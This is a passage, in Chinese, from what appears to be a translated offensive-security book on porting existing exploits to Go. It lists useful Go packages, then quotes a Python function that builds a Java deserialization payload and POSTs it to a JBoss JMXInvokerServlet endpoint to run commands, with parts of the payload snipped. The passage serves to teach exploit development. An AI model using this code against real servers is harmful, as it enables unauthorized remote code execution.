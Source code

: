 由于种种原因，需要将已存在的漏洞移植到Go中。可能现有的开发代码已被破坏、不完整或与目标系统或版本不兼容。虽然可以毫无疑问地使用原语言来扩展或更新损坏或未完成的代码，但是Go能提供容易的交叉编译，一致的语法和缩进规则以及强大的标准库。所有这些将使开发的代码具有更高的可移植性和可读性，而不会影响功能。

移植现有漏洞程序时，可能最大的挑战是确定等效的Go库和函数调用以实现相同级别的功能。举个例子，解决字节序，编码和加密等价物可能需要一些研究，尤其是对于那些不熟悉Go的人。幸运的是，在前面的章节中已经解决了基于网络通信的复杂性。希望大家应该熟悉它的实现和细微差别。

会发现无数种使用Go的标准库进行漏洞开发或移植的方法。对于我们来说，在一章中全面介绍这些包和用例是不现实的，建议通过 `https://golang.org/pkg/` 浏览Go的官方文档。文档内容丰富，有大量的好例子来帮助理解函数和包的用法。下面是一些在开发时可能会最感兴趣的包:

**bytes** 提供低级字节操作 **crypto** 实现各种对称和非对称加密和消息认证 **debug** 检查各种文件类型的元数据和内容

**encoding** 使用各种常见形式（例如二进制，十六进制，Base64等）对数据进行编码和解码

**io** **and** **bufio** 从各种通用接口类型\(包括文件系统、标准输出、网络连接等\)读写数据

**net** 通过使用各种协议（例如HTTP和SMTP）方便客户端与服务器的交互

**os** 执行本地操作系统并与之交互

**syscall** 公开用于进行低级系统调用的接口

**unicode** 使用UTF-16或UTF-8编码和解码数据

**unsafe** 与操作系统进行交互时避免Go的类型安全检查很有用

诚然，在后面的章节中，尤其是在我们讨论底层Windows交互时，其中一些包被证明更有用，但是我们已经包含了这个列表供查看。我们不会尝试详细介绍这些包，而是展示如何通过使用其中一些包来移植现有漏洞开发程序。

#### 移植Python代码漏洞

在第一个例子中，将移植2015年发布的Java反序列化漏洞。该漏洞归类为几个CVE，它影响常见应用程序，服务器和库中Java对象的反序列化。反序列化库引入了此漏洞，该库无法在服务器端执行之前的验证输入（漏洞的常见原因）。我们将重点放在开发流行的Java Enterprise Edition应用程序服务器JBoss上。在 [https://github.com/roo7break/serialator/blob/master/serialator.py](https://github.com/roo7break/serialator/blob/master/serialator.py) 上，有一个Python脚本，其中包含可在多个应用程序中使用此漏洞的逻辑。清单9-3提供需要复制的逻辑。

```python
def jboss_attack(HOST, PORT, SSL_On, _cmd):
    # The below code is based on the jboss_java_serialize.nasl script within Nessus 
    """
    This function sets up the attack payload for JBoss
    """
    body_serObj = hex2raw3("ACED000573720032737--SNIPPED FOR BREVITY--017400")

    cleng = len(_cmd)
    body_serObj += chr(cleng) + _cmd
    body_serObj += hex2raw3("740004657865637571--SNIPPED FOR BREVITY--7E003A")

    if SSL_On:
        webservice = httplib2.Http(disable_ssl_certificate_validation=True) 
        URL_ADDR = "%s://%s:%s" % ('https',HOST,PORT)
    else:
        webservice = httplib2.Http()
        URL_ADDR = "%s://%s:%s" % ('http',HOST,PORT)
        headers = {"User-Agent":"JBoss_RCE_POC", 
                   "Content-type":"application/x-java-serialized-object--SNIPPED FOR BREVITY--", 
                   "Content-length":"%d" % len(body_serObj)
        }
    resp, content = webservice.request(
        URL_ADDR+"/invoker/JMXInvokerServlet", 
        "POST",
        body=body_serObj,
        headers=headers)
    # print provided response.
    print("[i] Response received from target: %s" % resp)
```
